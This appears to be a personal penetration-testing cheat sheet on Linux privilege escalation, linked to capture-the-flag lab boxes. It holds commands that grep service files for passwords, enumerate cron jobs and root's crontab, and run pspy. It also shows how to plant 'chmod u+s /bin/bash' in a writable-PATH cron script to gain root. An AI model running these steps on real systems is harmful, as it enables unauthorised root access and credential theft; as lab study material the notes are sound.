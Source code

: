 Check the services file for possible credentials:
```bash
cd /etc/systemd/system/
grep -r pass
grep -r secret
```
>[!info]
>Interesting services may contain sensitive data
- [[Air]]



### Cron jobs

Enumeration:
```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
grep "CRON" /var/log/syslog
```

Run pspy 
- https://github.com/DominicBreuker/pspy
```bash
./pspy 

# Lower the interval to reveal passwords
./pspy -i 5
```
>[!info]
>Example writeup: [[Mantis]]

**Writable path:**
- Any non full PATH binary can be exploited (e.g. run-parts)
```bash
./pspy -i 5
echo "chmod u+s /bin/bash" > <PATH>/<filename>
```
E.g. [[Roquefort]]

Relative path:
```bash
# cat /etc/crontab
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

--- SNIP ---

* * * * * root overwrite.sh

# Since the path variable starts with /home/user and we have control over this directory we can create the overwrite.sh file in that directory
echo "chmod u+s /bin/bash" > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```
